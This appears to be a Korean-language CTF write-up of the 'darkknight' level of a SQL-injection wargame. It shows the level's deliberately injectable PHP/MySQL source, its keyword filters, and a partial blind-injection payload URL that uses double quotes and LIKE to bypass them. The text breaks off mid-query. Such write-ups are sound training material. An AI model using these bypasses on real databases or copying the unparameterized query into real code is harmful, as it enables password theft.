

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("darkknight"); 
  highlight_file(__FILE__); 
?>

no파라미터가 하나 더 생겼다는 것 말고는 기존 blind sql injection과 똑같이 하면 풀 수 있다.
기존에 있던 guest조건을 없애기 위해 pw와 no에 NULL값을 넣어주고 ’ 가 필터링 됐기 때문에 “ 를 사용하였다.
https://los.eagle-jump.org/darkknight_f~d.php?pw=&no="" or id like "admin" and pw like LENGTH(pw)=8로 길이를 찾고

query : select id from prob_darkknight where id='guest' and pw='' and no=